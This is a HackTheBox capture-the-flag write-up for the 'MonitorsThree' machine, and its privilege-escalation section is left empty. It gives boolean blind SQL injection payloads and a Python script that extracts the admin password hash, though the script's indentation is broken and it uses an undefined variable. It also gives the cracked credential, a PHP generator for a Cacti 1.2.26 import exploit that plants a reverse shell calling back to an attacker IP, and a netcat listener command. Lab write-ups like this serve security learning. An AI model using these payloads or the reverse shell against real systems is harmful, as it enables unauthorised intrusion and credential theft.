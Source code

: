 This is a writeup for recently retired monitorsthree machine in Hackthebox platform.

### Part 1: Enumeration

As always lets startup with good old nmap scan:

![NMAP](/static/writeups/monitors/1.png)

SSH and HTTP with port 22 and 80 respectively are open.
lets see what website is hosted in port 80, we have to add monitorsthree.htb to machine ip in /etc/hosts:

![NMAP](/static/writeups/monitors/2.png)

I can see site called monitorsthree.htb, lets enumerate subdomain:
as i used bash script, to add wordlist to /etc/host and send request to it:

```
#!/bin/bash

DOMAIN="monitorsthree.htb"
IP="10.10.11.30"

WORDLIST="/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt"


while read -r SUBDOMAIN; do
    FULLDOMAIN="${SUBDOMAIN}.${DOMAIN}"

    echo "$IP $FULLDOMAIN" >> /etc/hosts

    RESPONSE=$(curl -s -o /dev/null -w "%{http_code}" "http://$FULLDOMAIN")

    if [ "$RESPONSE" == "302" ]; then
        echo "Found: $FULLDOMAIN"
    fi

    sed -i "/$FULLDOMAIN/d" /etc/hosts

done < "$WORDLIST"

```

I found interesting subdomain called 'cacti.monitorsthree.htb', it asks for login credentials we don't have any so for now lets keep note of it.

there is a login page in monitorsthree.htb/login.php, and when using forgot password, i found sql injection in forgot_password.php by submitting:`'`:

![NMAP](/static/writeups/monitors/3.png)

### Part 2: Foothold

by submitting : `'order by 3--+`
till it gives error, from error we can see that it uses mariadb or we can use:

<span style="color: red;">
ad'union select null,null,null,null,null,null,null,null,null from dual--
</span>

when we query nine column it says successfully sent request code, so we should use nine column from now in our sql query.
by submitting

<span style="color: red;">ad'||(SELECT '' FROM table)||'</span>

it gives error and querying using

<span style="color: red;">ad'||(SELECT '' FROM users)||'</span>

gives successful output

![NMAP](/static/writeups/monitors/5.png)

now we know there is a table called users.
To enumerate user, i first used username administrator

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='administrator')='a')||'</span>

this gives error: 'Unable to process request, try again!'

![NMAP](/static/writeups/monitors/4.png)

but as when we input admin:

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='admin')='a')||'</span>

it outputs: 'Successfully sent password reset request!'

![NMAP](/static/writeups/monitors/5.png)

so, we know there is user called admin now.

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='admin' and length(password)=32)='a')||'</span>

it returns successful so, password length must be 32, it means it is some kind of hash

<span style="color: red;">
ad' ||(SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='3'||'
</span></br>
<span style="color: red;">
ad' ||(SELECT SUBSTRING(password,2,1) FROM users WHERE username='admin')='1'||'
</span>

As it returns successful message back like this, we found first and second character of hash but it is time consuming so i decided to do it with python script:

```

import requests
import time

# Target URL

url = "http://monitorsthree.htb/forgot_password.php"

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Function to check if a guessed character is correct

def is_correct_char(position, char): # Construct payload
payload = f"ad' ||((SELECT SUBSTRING(password,{position},1) FROM users WHERE username='admin')='{char}')||'"

    # Data to be sent in the POST request
    data = {
        "username": payload,
        "submit": "Send"
    }

    try:
        # Send the POST request
        response = requests.post(url, data=data)
        # Check response to see if the guess was correct
        if "Successfully sent password reset request!" in response.text:
            return True
    except requests.exceptions.ConnectionError as e:
        print("Connection error. Retrying...")
        time.sleep(5)  # Wait for 5 seconds before retrying
        return is_correct_char(position, char)
    return False

# Loop to find each character of the password

for position in range(1, 33): # Assuming password length is 32
for char in characters:
if is_correct_char(position, char): # Add the correct character to the known password
known_password += char
print(f"[+] Found character {position}: {char}")
break # Delay to avoid server-side rate limiting or detection
time.sleep(1) # Adjust the delay as necessary

# Print the complete password when done

print(f"[+] Password: {known_password}")

```

Output:

![NMAP](/static/writeups/monitors/6.png)

I got admin user hash value from it:

By using hashid, i think it is md5 hash

![NMAP](/static/writeups/monitors/7.png)

I cracked the hash using hashcat which corresponds to: greencacti2001

![NMAP](/static/writeups/monitors/8.png)

Now, lets use these credential in login.php and 'cacti.monitorsthree.htb'. One thing i notice when opening 'cacti.monitorsthree.htb' is it is using cacti v 1.2.26 and quick research shows us vulnerability in this specific version to use Arbitrary file write to RCE.

[https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26.git]

To get shell i used this:

```

<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/shell.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php
\$ip = '10.10.14.59';
\$port = 3669;
\$sock = fsockopen(\$ip, \$port);
\$proc = proc_open('/bin/bash -i', array(0 => \$sock, 1 => \$sock, 2 => \$sock), \$pipes);
?>";

$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("shell.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat shell.xml | gzip -9 > shell.xml.gz; rm shell.xml");

?>

```

save this as shell.php and run it using `php shell.php`, it will generate file called shell.xml.gz upload it in import packages in cacti:

![NMAP](/static/writeups/monitors/9.png)

As you can see, we successfully uploaded shell.php in the machine, we can execute it by going to: `http://cacti.monitorsthree.htb/cacti/resource/shell.php`
before that open netcat listener in your machine: `nc -nvlp port`
I got shell as www-data using this method.

### Part 3: Privilege Escalation:

```

```
